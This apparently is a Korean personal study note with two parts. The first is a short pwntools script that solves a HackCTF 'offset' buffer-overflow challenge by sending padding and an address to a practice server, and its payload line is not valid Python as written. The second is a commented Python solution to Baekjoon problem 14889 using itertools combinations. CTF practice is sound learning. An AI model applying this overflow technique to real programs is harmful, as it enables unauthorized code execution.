 # 개인공부
## python

## hackctf. offset

from pwn import *

p = remote("ctf.j0n9hyun.xyz",3007)

p.recvuntil("Which function would you like to call?")

pay = A*30
pay += p32(0xD8)

p.sendline(pay)
p.interactive()


## 14889. 스타트와 링크

>> 상황에 따라 조합함수 , 수열함수 이용하기


풀이


from itertools import combinations # 조합 함수

>> itertools 모듈 - combination 함수

>> itertools - combinations_with_replacement 함수

N = int(input())        # 반복 횟수 받기

able_borad = []     

for _ in range(N):
    able_borad.append(list(map(int,input().split())))

number_list = [i for i in range(N)]     # 멤버들의 총 리스트

res = float('inf')  #???    # 능력치 차이 최소값


'''
>>> float('inf')          # 양의 무한대
inf

>>> float('-inf')         # 음의 무한대
-inf

>>> 1e100 < float('inf')  # 무한대는 다른 모든 실수보다 크다
True

>>> 1e309                 # 너무 큰 실수는 무한대로 평가된다
inf

>>> 1e-324                # 너무 0에 가까운 실수는 0으로 평가된다
0.0

'''

def solve():
    global res

    # 조합함수를 이용해서 각각 후보자를 생성
    for c in combinations(number_list, N//2):
        # 선택된 후보와 나머지

        start_number = list(c)      
        # number_list 부터 N//2 까지 반복 하면서
        # 나온 c는 비교하기위한 첫번쨰 숫자이고

        link_number = list(set(number_list) - set(c))
        # 링크 넘버는 두번쨰 숫자이다.
        # 리스트에서 스타트리스트와 겹치는 부분만 제거해주면 된다.


        # 점수 비교 2명씩
        start_com = list(combinations(start_number,2))
        # 위의 만들어놨던 스타트 멤버와 링크멤버를 서로 비교
        link_com = list(combinations(link_number,2))

        # 점수 구하기
        start_sum = 0   # 점수 합 변수
        for x,y in start_com:
            start_sum += (able_borad[x][y] + able_borad[y][x])
        # x와 y를 받고 합에 (x,y), (y,x) 를 더해준다.

        link_sum = 0    # 점수 합 변수
        for x,y in link_com:
            link_sum += (able_borad[x][y] + able_borad[y][x])
        # x와 y를 받고 합에 (x,y), (y,x) 를 더해준다.


        # 차이를 구하는거면 함수 abs 를 사용한다.
        # 왜냐하면 음수가 나올수있기떄문에
        # abs >> 절댓값 나오게하는 함수

        if (res > abs(start_sum - link_sum)):
            res = abs(start_sum-link_sum)
            # 계속해서 res와 비교해서 최소값 도출하기
solve()
print(res)
